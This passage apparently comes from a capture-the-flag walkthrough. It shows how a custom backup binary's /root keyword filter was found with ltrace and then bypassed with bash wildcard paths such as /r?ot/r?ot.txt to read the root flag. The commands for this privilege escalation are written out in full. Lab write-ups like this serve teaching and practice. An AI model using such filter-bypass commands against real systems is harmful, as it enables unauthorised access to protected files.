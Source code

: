 ```
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 <file path>
```

![image](https://user-images.githubusercontent.com/10210108/83566322-d1115580-a4ed-11ea-890e-983c47a3daa0.png)

When decoded and output to a zip file "echo 'base64 text' | base64 -d > backupjob.zip", and extracted "7z x backupjob.zip" shows: 

![image](https://user-images.githubusercontent.com/10210108/83566573-3bc29100-a4ee-11ea-8fcb-91651734ec21.png)

Running the command again with ltrace provided a little more information about what the application was doing. I ran the command with /tmp as the target directory. It showed that it's looking for specific characters and strings (like /root) which I assume is some sort of protection mechanism and results in the generic base64 troll.

![image](https://user-images.githubusercontent.com/10210108/83562851-3cf0bf80-a4e8-11ea-9655-a97dc597abd9.png)

Looking at all symbols, I ruled out the ones defined in the backup app leaves the following, some of which are useful as they are used by bash as wildcard.

```
! " # % ' ( ) * , - . : < = > ? @ [ \ ] ^ _ { } ~ 
```

There may be other ways but I found three ways that allowed me to get root.txt

```
# Single Character Wildcard ?
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r?ot/r?ot.txt

# String Wildcard *
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r*ot/r*ot.txt

# Start and End character wildcard []
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r[a-z]ot/r[a-z]ot.txt
```

![image](https://user-images.githubusercontent.com/10210108/83568224-d1f7b680-a4f0-11ea-9ddd-c02fcd976f26.png)

![image](https://user-images.githubusercontent.com/10210108/83568487-21d67d80-a4f1-11ea-9ecf-3829e41035b6.png)
